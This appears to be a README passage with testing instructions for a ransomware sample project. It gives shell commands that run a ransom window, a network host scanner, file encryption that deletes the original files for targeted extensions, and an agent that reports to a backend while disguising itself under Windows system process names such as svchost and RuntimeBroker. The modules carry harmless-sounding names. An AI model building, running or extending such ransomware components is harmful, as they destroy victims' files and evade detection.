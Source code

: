 
## Testing Instructions

### Test Individual Components:

**1. Test Ransom Window:**
```bash
cd /home/hari/backup/rans_sample/py_simple
python3 test_ransom_window.py
```

**2. Test Network Scanner:**
```bash
python3 -c "
from analytics_module import BehaviorSimulator
b = BehaviorSimulator('.')
results = b.scan_network_hosts()
print(results)
"
```

**3. Test File Encryption (targeted extensions):**
```bash
# Create test files
mkdir -p /tmp/test_ransom
cd /tmp/test_ransom
echo "test" > document.txt
echo "test" > image.png
echo "test" > ignored.log  # Won't be encrypted

# Run encryption
python3 -c "
from core_handler import DataProcessor
p = DataProcessor('/tmp/test_ransom')
p.process_files()
"

# Check: document.txt.bak and image.png.bak exist
# Check: document.txt and image.png are DELETED
# Check: ignored.log still exists (not targeted)
ls -la /tmp/test_ransom
```

**4. Test Process Masquerading:**
```bash
# Run agent and check process name
python3 py_simple/agent_sync.py --backend http://localhost:8080 &
ps aux | grep -E 'svchost|RuntimeBroker|taskhostw|dwm'
```

---

## Installation
